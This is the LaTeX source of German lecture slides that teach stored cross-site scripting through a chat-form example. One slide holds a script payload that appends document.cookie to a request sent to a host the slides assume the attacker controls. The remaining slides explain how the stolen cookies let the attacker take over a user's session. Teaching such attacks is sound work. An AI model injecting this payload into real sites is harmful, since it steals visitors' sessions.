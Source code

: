 \documentclass[10pt]{beamer}
\begin{document}
\begin{frame}[fragile]{XSS - Beispiel}
  \begin{itemize}
    \item Wir verwenden die XSS-Sicherheitsl\"uck in Form, um unser eigenes Script in die Seite zu integrieren.
    \item F\"ullen wir das Feld 'new message' wie folgt:

    \begin{lstlisting}[style=PHPStyle]
      Please no Offtop in this thread.
      <script>
        img = new Image();
        img.src = "http://localhost:8000/cat.jpg?"+document.cookie;
      </script>
    \end{lstlisting}
    \item Annahme: das Zieladdress (http://localhost:8000) geh\"ort zum Angreifer.
  \end{itemize}
\end{frame}


\begin{frame}[fragile]{XSS - Beispiel}
  \begin{figure}[ht]
      \centering
      \includegraphics[width=\textwidth]{XSS-2.png}
      \caption{Nach der Integration des Skripts}
      \label{fig:figure2}
  \end{figure}
\end{frame}

\begin{frame}[fragile]{XSS - Beispiel}
  \begin{itemize}
    \item Da die Website die Eingabe nicht \"uberpr\"uft, gelangt unser Skript in den Chat.
    \item Ab jetzt jeder Besucher des Seites wird sein Cookies-data zum Angreifer senden.
    \item Der Angreifer sollte, bis der richtige Benutzer die Seite aufruft.
    \item Der Angreifer kann dann in seinem Browser Cookie-Werte ersetzen, so dass die Website ihn als Benutzer nimmt.
  \end{itemize}
\end{frame}
\end{document}
